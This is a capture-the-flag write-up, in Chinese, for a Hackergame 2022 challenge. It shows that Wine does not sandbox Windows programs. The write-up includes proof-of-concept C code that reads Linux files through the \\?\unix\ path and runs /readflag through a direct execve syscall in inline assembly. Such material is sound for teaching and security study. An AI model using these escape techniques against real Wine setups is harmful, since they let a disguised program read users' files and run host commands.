

# 杯窗鹅影

题解作者：[taoky](https://github.com/taoky)

出题人、验题人、文案设计等：见 [Hackergame 2022 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：binary

- 题目分值：flag1（150）+ flag2（250）

说到上回，小 K 在获得了实验室高性能服务器的访问权限之后就迁移了数据（他直到现在都还不知道自己的家目录备份被 Eve 下载了）。之后，为了跑一些别人写的在 Windows 下的计算程序，他安装了 wine 来运行它们。

「你用 wine 跑 Windows 程序，要是中毒了咋办？」

「没关系，大不了把 wineprefix 删了就行。我设置过了磁盘映射，Windows 程序是读不到我的文件的！」

但果真如此吗？

为了验证这一点，你需要点击「打开/下载题目」按钮，上传你的程序实现以下的目的：

1. `/flag1` 放置了第一个 flag。你能给出一个能在 wine 下运行的 x86_64 架构的 Windows 命令行程序来读取到第一个 flag 吗？
2. `/flag2` 放置了第二个 flag，但是需要使用 `/readflag` 程序才能看到 `/flag2` 的内容。你能给出一个能在 wine 下运行的 x86_64 架构的 Windows 命令行程序来执行 `/readflag` 程序来读取到第二个 flag 吗？

提示：

1. 该环境为只读环境，运行在 x86_64 架构的 Linux 上。我们未安装图形库与 32 位的相关运行库，因此需要使用图形界面的 Windows 程序与 32 位的 Windows 程序均无法执行；
2. 包括 `start.exe`, `cmd.exe`, `winebrowser.exe`, `wineconsole.exe` 在内的部分程序已从环境中删除；
3. 作为参考，你可以在 Linux 下使用 MinGW 交叉编译出符合要求的 Windows 程序，以 Ubuntu 22.04 为例（其他 Linux 发行版所需操作类似）：
    1. 安装 MinGW 工具链，在 Ubuntu 22.04 下其对应的软件包为 `gcc-mingw-w64-x86-64`；
    2. 使用 C 编写 Windows 程序，这里使用 Hello, world 为例（代码见下） ；
    3. 使用命令 `x86_64-w64-mingw32-gcc helloworld.c` 编译，得到的 `a.exe` 文件即为符合要求的 x86_64 架构的 Windows 命令行程序。

```c
#include <stdio.h>

int main(void) {
    printf("Hello, world!\n");
    return 0;
}
```

<p><b style="color:red">补充说明 1：wine 的执行环境仅包含 c: 的默认磁盘映射，z: 的磁盘映射已被删除。</b></p>

## 题解

### 前言

[Wine](https://www.winehq.org) 是非常有名的在其他操作系统中运行 Windows 程序的工具。尤其是近年来随着 Valve 的 [Proton](https://github.com/ValveSoftware/Proton) 的迅速开发，在 Linux 下 wine 对 Windows 程序（特别是游戏）的支持度得到了很大程度的提升（至少在不开虚拟机的情况下……现在 Linux 下面能轻松玩的游戏……应该比隔壁 macOS 要多？）。

使用过 wine 的同学肯定见过这个页面：



可以看到，Linux 下的根目录被映射到了 Z: 分区，这样的话 Windows 程序就能方便编辑 Linux 下的用户数据了。那么这样的话，把 Z: 映射删掉，Windows 程序就访问不了 Linux 的数据了吗？

很久很久以前，我也是这么想的。可惜不是这样的。[WineHQ Wiki 的 FAQ 里面明确写着](https://wiki.winehq.org/FAQ#How_good_is_Wine_at_sandboxing_Windows_apps.3F)：


> 7.5 How good is Wine at sandboxing Windows apps?
> 
> **Wine does not sandbox in any way at all.** When run under Wine, a Windows app can do anything your user can. Wine does not (and cannot) stop a Windows app directly making native syscalls, messing with your files, altering your startup scripts, or doing other nasty things.
> 
> You need to use AppArmor, SELinux or some type of virtual machine if you want to properly sandbox Windows apps.
> 
> Note that the winetricks sandbox verb merely removes the desktop integration and Z: drive symlinks and is not a true sandbox. It protects against errors rather than malice. It's useful for, e.g., keeping games from saving their settings in random subdirectories of your home directory. 

这道题的目的，就是证明这一点：**用 wine 运行的 Windows 程序能做的事情，和相同用户运行的 Linux 程序没有区别**。所以，要么不要随便运行 Windows 程序，要么在沙盒里面运行（我现在在使用基于 Flatpak 的 [Bottles](https://usebottles.com/)，看起来还不错）。

### Wine Is Not an Emulator

（也可参考 [How wine works 101](https://werat.dev/blog/how-wine-works-101/)）

Wine **不是**「Windows 程序**模拟**器」。它能够高效运行的一个很重要的前提是：程序的体系架构（x86/x86_64）和实际运行的架构是一致的，而大部分的汇编指令做的事情都是计算，在同样架构的 CPU 上，对应的指令不管在什么操作系统下都能运行，这并非模拟。

简化来说，wine 做的事情是：解析 PE 格式的 Windows 程序二进制，在内存中合适的位置放下它们，处理一些其他的事情（比如说处理对应的依赖库等等），然后跳转到入口点，开始运行程序。

但是如果学过操作系统，可能会有一个疑问：Windows 的系统调用和 Linux 的很不一样，wine 是如何模拟 Windows 的系统调用的？

答案是不模拟。Windows 的系统调用表每个大版本都会有变化，所以正常的程序都不会直接去 `syscall`，而是最终由 `ntdll.dll` 来帮你选择合适的系统调用执行，所以只要 wine 恰当实现了相关的逻辑，就可以在用户态搞定绝大多数 Windows 程序的系统调用问题。（从这个意义上来看，在非原生系统上跑 Windows 程序比跑 Linux 程序要简单不少）

（当然，对「如何模拟直接调用 Windows syscall」的情况，也有一些讨论，参见 [LWN: Emulating Windows system calls in Linux](https://lwn.net/Articles/824380/)）

### 任意读文件

第一小题最简单的 payload 的代码甚至只要学过 C 的文件 API 的人都能写出来：

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    FILE *f = fopen("/flag1", "r");
    if (!f) {
        puts("Failed!");
        exit(1);
    } else {
        puts("Succeed!");
    }
    char buf[5000] = {};
    fgets(buf, 5000, f);
    printf("%s\n", buf);
    return 0;
}
```

没错，就这么简单就能访问到 Linux 下的文件。这并不需要上面提到的 Z: -> / 的磁盘映射。但是写题解的时候本地测试发现这个 payload 好像不行，最后发现这个行为和当前工作目录（cwd）有关。在容器里跑的时候，cwd 是 /，所以能访问到 /flag1。

那么有没有其他的方法，即使在 cwd 改变的情况下也可以读取到 /flag1 呢？如果去翻一下 wine 生成的配置目录，可以看到一些有意思的东西：

```console
$ pwd
/home/user/.wine
$ grep unix user.reg | head -n 5
"@Droid Sans Fallback (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\truetype\\droid\\DroidSansFallbackFull.ttf"
"@Noto Sans CJK HK (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\opentype\\noto\\NotoSansCJK-Regular.ttc"
"@Noto Sans CJK HK Black (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\opentype\\noto\\NotoSansCJK-Black.ttc"
"@Noto Sans CJK HK Bold (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\opentype\\noto\\NotoSansCJK-Bold.ttc"
"@Noto Sans CJK HK DemiLight (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\opentype\\noto\\NotoSansCJK-DemiLight.ttc"
```

所以上面的程序修改为：

```c
FILE *f = fopen("\\\\?\\unix\\flag1", "r");
```

就可以了。这个路径语法是 Windows NT 系列系统的内部路径表示格式，例如在 Windows 下我们常用的这个路径格式：

```
C:\Windows\explorer.exe
```

它的等价路径是：

```
\\?\C:\Windows\explorer.exe
```

很显然，wine 自己做了一些特别的处理来方便程序访问 Linux 的文件（否则会出现类似于删掉磁盘映射之后 wine 运行的 Windows 程序无法访问到 Linux 的字体的情况）。只是这样的隐藏接口，也可以被我们利用，实现出乎意料的事情。

### 任意命令执行

有两种思路：一种是找专门启动程序的有关库函数，然后用 NT Path 作为参数去调用（我了解到的有关题解有使用 `_spawnvp()` 的）；另一种方法，也是我最开始出题的时候想到的办法，下面会详细介绍。

还记得之前说过，wine 在用户层解决了 Windows 程序使用系统调用的问题吗？那么，**如果我在 Windows 程序里面调用 Linux 的系统调用（直接 `syscall`），会发生什么？**

答案是：能够毫无阻碍地正常调用。（这一点也在 WineHQ Wiki 里面提到了）

因此我们写一个直接调用 `execve()` 的 PE 程序吧！当然，我们不想和 MinGW 以及 Windows 的 C 库扯上关系，所以这里用内联汇编。

```c
#include <stdio.h>

int main() {
    char *filename = "/readflag";
    printf("filename: %p\n", filename);
    __asm__ ("mov %0, %%rdi \n\t"     // filename
             "mov $0, %%rsi \n\t"     // argv (NULL)
             "mov $0, %%rdx \n\t"     // envp (NULL)
             "mov $59, %%rax \n\t"    // execve(2)
             "syscall"
             :: "m"(filename)
             : "%rax", "%rdi", "%rsi", "%rdx"
             );
    return 0;
}
```

x86_64 架构的 syscall table 可以在网络上搜索。如果在使用 x86_64 下的 Linux，也可以用[以下命令](https://unix.stackexchange.com/a/579639)得到：

```console
$ ausyscall --dump | grep execve
59      execve
322     execveat
```

编译得到的这个「Windows 程序」并无法在 Windows 上正确运行，但是这又有什么关系呢？PE 格式说到底只是个容器，里面可以放 Windows 程序，可以放 EFI 程序，当然在这里我们放的是专为 x86_64 Linux wine 定制的程序 :)

### 附注

写了这道题的 PoC 之后，我再也不敢直接裸跑 wine 了。

另外可能有人会尝试用 winegcc 编译 payload 到只有 wine 能运行的 ELF 程序，但是我的执行脚本会检查是不是 PE 格式的文件，所以这条路应该是不通的。
